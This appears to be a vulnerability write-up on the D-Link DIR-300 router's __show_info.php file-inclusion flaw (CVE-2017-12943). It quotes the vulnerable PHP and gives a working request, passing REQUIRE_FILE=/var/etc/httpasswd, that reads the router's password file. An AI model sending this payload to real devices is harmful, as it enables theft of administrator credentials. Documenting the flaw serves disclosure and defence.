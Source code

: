 Ref:
https://www.52pojie.cn/thread-1572565-1-1.html#41264230_2%E3%80%81dir600
https://paper.seebug.org/429/#d-link-dir-300-dir-320-dir-600-dir-615


# D-Link DIR-300 

__show_info_php

Payload `__show_info.php?REQUIRE_FILE=/var/etc/httpasswd`

```php

<?

if($REQUIRE_FILE == "var/etc/httpasswd" || $REQUIRE_FILE == "var/etc/hnapasswd")
{
	echo "<title>404 Not Found</title>\n";
	echo "<h1>404 Not Found</h1>\n";
}
else
{
if($REQUIRE_FILE!="")
{
require($LOCALE_PATH."/".$REQUIRE_FILE);
}
else
{
echo $m_context;
echo $m_context2;//jana added
if($m_context_next!="")
{
	echo $m_context_next;
}
echo "
\n";

if($USE_BUTTON=="1")
	{echo "<input type=button name='bt' value='".$m_button_dsc."' onclick='click_bt();'>\n"; }
	}

}

?>
```


# CVE-2017-12943

__show_info.php

Payload `__show_info.php?REQUIRE_FILE=/var/etc/httpasswd`

`$REQUIRE_FILE` can be control, `require($LOCALE_PATH."/".$REQUIRE_FILE)`, `LOCATE_PATH` default was empty

```php=
<body onload="init();" <?=$G_BODY_ATTR?>>
<form name="frm" id="frm">
<?require("/www/model/__banner.php");?>
<table <?=$G_MAIN_TABLE_ATTR?>>
<tr valign=middle align=center>
    <td>

<!-- ________________________________ Main Content Start ______________________________ -->
    <table width=90%>
    <tr>
        <td id="box_header">
            <h1><?=$m_context_title?></h1>

            <center>
            <?
            if($REQUIRE_FILE!="")
            {
                require($LOCALE_PATH."/".$REQUIRE_FILE);
            }
            else
            {
                echo $m_context;
                echo $m_context2;//jana added
                if($m_context_next!="")
                {
                    echo $m_context_next;
                }
                echo "

\n";
                if($USE_BUTTON=="1")
                {echo "<input type=button name='bt' value='".$m_button_dsc."' onclick='click_bt();'>\n"; }
            }
            ?>
            </center>

        </td>
    </tr>
    </table>
<!-- ________________________________  Main Content End _______________________________ -->

    </td>
</tr>
</table>
<?require("/www/model/__tailer.php");?>
</form>
</body>
</html>
<?
for ("/sys/user")
{
    if (query("name")!="")
    {
        echo query("name").":".query("password")."\n";
    }
}
?>
```